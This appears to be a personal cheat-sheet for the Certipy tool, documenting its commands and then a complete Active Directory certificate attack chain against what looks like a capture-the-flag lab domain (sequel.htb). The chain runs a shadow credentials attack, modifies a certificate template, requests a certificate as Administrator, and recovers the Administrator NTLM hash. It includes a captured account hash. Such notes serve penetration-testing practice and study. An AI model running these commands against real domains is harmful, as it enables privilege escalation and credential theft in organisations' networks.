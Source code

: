 # certipy

## Overview

## Usage

### Auth

Return a hash for the account of the private key

Example: certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.251.172

### Find

The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations. The find operation searches for vulnerabilities such as missing or misconfigured certificates, insecure settings, or issues with Kerberos encryption types.

    -scheme <scheme>: This specifies which scheme should be used to communicate with the target Domain Controller.
    -k: The -k flag indicates that Kerberos authentication should be used for the request. Certipy will attempt to authenticate with the Kerberos tickets that are either provided or found in the Kerberos ticket cache
    -debug: The -debug flag enables debugging output.
    -target <target_name>.<domain_name>: DNS name of the target
    -dc <ip>: Domain Controller ip.
    -vulnerable: This flag tells Certipy to look for vulnerabilities related to Kerberos and Active Directory certificate configurations.
    -stdout: The -stdout flag indicates that Certipy should print its results to standard output, rather than saving them to a file.

```
KRB5CCNAME=$PWD/<victim_username_with_TGT>.ccache certipy-ad find -scheme <scheme> -k -debug -target <target_dns_name> -dc-ip <domain_controller_ip> -vulnerable -stdout
```

Example: KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.129.251.172 -vulnerable -stdout

### Req

Example: certipy-ad req -u ca_svc -hashes :{ca_svc_hash} -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns {ip} -dns {ip}

Might need to be run multiple times to work

### Shadow Credentials

```
certipy-ad shadow auto -u <username>@<domain_name> -p '<password>' -dc-ip <domain_controller_ip> -ns <dns_server_ip> -target <domain_controller_name>.<domain_name> -account <username_victim>
```

Example : certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc

### Template

This specifies the Kerberos template to use when requesting a Kerberos ticket. This template is used when performing actions like generating tickets or performing Kerberos-based attacks (like Pass-the-Ticket (PTT) or Golden Ticket).

Example: KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172


## Examples

### Shadow Credentials

Do a shadow crendentials attack to get a TGT for the account ca_svc

    certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc

With the TGT of ca_svc specify a template and get a private key for the Administrator account:

    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
    certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.251.172 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.251.172 -dns 10.129.251.172

Finally authenticate with the private key and get the NTLM hash for the Administrator account:

    certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.129.251.172